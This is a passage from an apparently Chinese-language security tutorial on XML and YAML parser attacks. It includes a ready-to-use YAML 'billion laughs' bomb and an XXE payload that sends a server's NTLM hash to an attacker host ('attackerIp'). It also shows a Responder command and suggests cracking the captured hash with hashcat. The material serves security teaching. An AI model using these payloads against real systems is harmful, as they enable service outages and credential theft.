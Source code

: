 如以上代码所示，在 XMl 中定义了一个实体 lol9，它的值包含了十个实体 lol8 的值，而每个 lol8 又包含了十个 lol7 的值...最后产生 10 亿个“lol”字符串，占用内存约高达 3GB。

#### [Yaml Attack](#toc_yaml-attack)

```plain
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### [Quadratic Blowup Attack](#toc_quadratic-blowup-attack)

[![img](assets/1698894099-f02504b193779908ca3e3bfefdd27d26.png)](https://storage.tttang.com/media/attachment/2022/11/14/6a0cc729-4ae0-4f10-a72c-95220d27957d.png)

#### [获取 NTML](#toc_ntml)

在 Windows 主机上，可以通过设置响应程序来获取 web 服务器用户的 NTML 哈希。py 处理程序：

```plain
Responder.py -I eth0 -v
```

然后发送以下请求：

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

接着便可以尝试使用 hashcat 破解哈希

